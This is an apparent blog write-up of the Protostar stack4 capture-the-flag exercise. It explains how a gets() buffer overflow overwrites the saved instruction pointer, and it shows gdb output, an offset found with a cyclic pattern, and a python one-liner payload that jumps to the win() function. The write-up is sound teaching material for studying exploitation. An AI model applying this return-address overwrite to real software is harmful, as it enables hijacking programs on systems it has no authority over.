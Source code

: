 ```yaml
---
layout: post
title: Protostar Writeup - stack4
updated: 2018-08-01 21:00
tags: [ctf, binary exploit, protostar, tech]
---
```


## Protostar - stack4

Moving on to stack4. This is a really good one. It will test your knowledge of how function calls work.
Before moving forward, I strongly recommend that you try this one yourself, it's not that easy though :).
Here's the code we're given:

{% highlight c %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
    printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
    char buffer[64];

    gets(buffer);
}
{% endhighlight %}

This code is similar to the previous challenge code, with the exception of the function pointer.
Again our attack plan will target the "gets()" function. First let's debug this code and see what we can find.

{% highlight shell %}
(gdb) set disassembly-flavor intel
(gdb) disass main
Dump of assembler code for function main:
0x08048408 <main+0>:	push   ebp
0x08048409 <main+1>:	mov    ebp,esp
0x0804840b <main+3>:	and    esp,0xfffffff0
0x0804840e <main+6>:	sub    esp,0x50
0x08048411 <main+9>:	lea    eax,[esp+0x10]
0x08048415 <main+13>:	mov    DWORD PTR [esp],eax
0x08048418 <main+16>:	call   0x804830c <gets@plt>
0x0804841d <main+21>:	leave
0x0804841e <main+22>:	ret
{% endhighlight %}

Not much to work with here, other than the "gets()" function. If you take a look at the task description, it's clear that we somehow have to change the value of the EIP register.
So what is the EIP register? EIP stands for the Extended Instruction Pointer. For simplicity sake I am going to refer to it as just Instruction Pointer or IP for short. What's so special about this register?
The IP is responsible for storing the address of the next instruction to be executed. This should make it intuitive as to why we want to override the EIP value. If it's not, I'll try my best to explain it to you.

Say we are executing some assembly instructions located at location 0x01, then the Instruction Pointer points to 0x02. That's it, that's all the Instruction Pointer does, stores the address of the next instruction to be executed.
Now if we can somehow modify the EIP's contents, we can get our program to jump to a location of our choice and continue execution from that location. But this doesn't make sense, the registers are located on the CPU, and the overflow occurs on the stack.
So how does EIP get modified in the first place? If you dig a little deeper, and look at the `call` instruction of assembly, you'll see that it 'pushes' the value of EIP onto the stack(solves the mystery!), and when the function returns, the value of EIP is restored.
Makes sense since we need to continue executing code after a function call so we need some way of storing that location, and the stack is where we do this storing.

Now unlike the previous programs, you can't really predict where the EIP will be on the stack, it's more of trial and error. With this knowledge in mind, let's get to work.

First let's get the offset of the EIP. I like using [De Brujin patterns](https://en.wikipedia.org/wiki/De_Bruijn_sequence) for this. You can create your own patterns.
I create mine using [pwntools](http://docs.pwntools.com/en/stable/). I'm using the debugger to get the address, because without it, all you see is a 'Segmentation Fault' which is not very helpful.

{% highlight shell %}
(gdb) set disassembly-flavor intel
(gdb) disass main
Dump of assembler code for function main:
0x08048408 <main+0>:	push   ebp
0x08048409 <main+1>:	mov    ebp,esp
0x0804840b <main+3>:	and    esp,0xfffffff0
0x0804840e <main+6>:	sub    esp,0x50
0x08048411 <main+9>:	lea    eax,[esp+0x10]
0x08048415 <main+13>:	mov    DWORD PTR [esp],eax
0x08048418 <main+16>:	call   0x804830c <gets@plt>
0x0804841d <main+21>:	leave
0x0804841e <main+22>:	ret
End of assembler dump.
(gdb) r
Starting program: /opt/protostar/bin/stack4
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae

Program received signal SIGSEGV, Segmentation fault.
0x63413563 in ?? ()
{% endhighlight %}

So we managed to change the EIP to "0x63413563". Calculating the offset, we see that the EIP is located on the stack at a distance of 76 bytes.
This becomes our padding. That's one half of the job done. Now we need to get the location of the `win()` function.

{% highlight shell %}
(gdb) p win
$1 = {void (void)} 0x80483f4 <win>
{% endhighlight %}

This is the address of the `win()` location. Combining this address with the padding is all we need to exploit this binary.
Let's craft and use our exploit.

{% highlight shell %}
$ python -c "print 'A'*76 + '\xf4\x83\x04\x08'" | ./stack4
code flow successfully changed
Segmentation fault
{% endhighlight %}

Success! The reason we get a segmentation fault is because we didn't use an offical 'call' instruction. And EIP restores garbage when it actually returns from the `win()` function.

### Sites

[Protostar](https://exploit-exercises.com/protostar/)
[Phrack](http://phrack.org/issues/49/14.html)
